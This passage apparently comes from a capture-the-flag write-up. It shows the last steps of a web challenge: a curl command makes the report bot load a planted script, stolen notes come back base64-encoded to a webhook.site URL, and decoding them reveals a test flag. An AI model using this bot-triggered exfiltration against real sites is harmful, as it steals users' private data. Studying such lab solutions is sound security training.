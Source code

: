 ```bash
$ curl -X POST "http://localhost/api/report" -d '{"url":"http://localhost/note/166552770206/long.js"}' -H "Content-Type: application/json"
{"message":"Report submitted successfully"}
```

We then get a response on `webhook.site`:
```
https://webhook.site/a0e2745a-b625-4816-8d85-eb0a66ccc6f3?data=eyJub3RlcyI6W3siY29udGVudCI6ImthbG1hcnt0ZXN0X2ZsYWd9IiwiaWQiOjMxOTk2MDg1MzgyLCJ0aXRsZSI6IkZsYWcifSx7ImNvbnRlbnQiOiJUaGlzIGlzIG5vdCB0aGUgZmxhZyB5b3UgYXJlIGxvb2tpbmcgZm9yIiwiaWQiOjE2NjU1Mjc3MDIwNSwidGl0bGUiOiJOb3RlIn1dfQ==
```

We then decode it for the flag!
```bash
$ echo "eyJub3RlcyI6W3siY29udGVudCI6ImthbG1hcnt0ZXN0X2ZsYWd9IiwiaWQiOjMxOTk2MDg1MzgyLCJ0aXRsZSI6IkZsYWcifSx7ImNvbnRlbnQiOiJUaGlzIGlzIG5vdCB0aGUgZmxhZyB5b3UgYXJlIGxvb2tpbmcgZm9yIiwiaWQiOjE2NjU1Mjc3MDIwNSwidGl0bGUiOiJOb3RlIn1dfQ==" | base64 -d
{"notes":[{"content":"kalmar{test_flag}","id":31996085382,"title":"Flag"},{"content":"This is not the flag you are looking for","id":166552770205,"title":"Note"}]}
```

(Remote was being stubborn on the post-solve, I dunno)

Flag: `the remote instance is doodoo`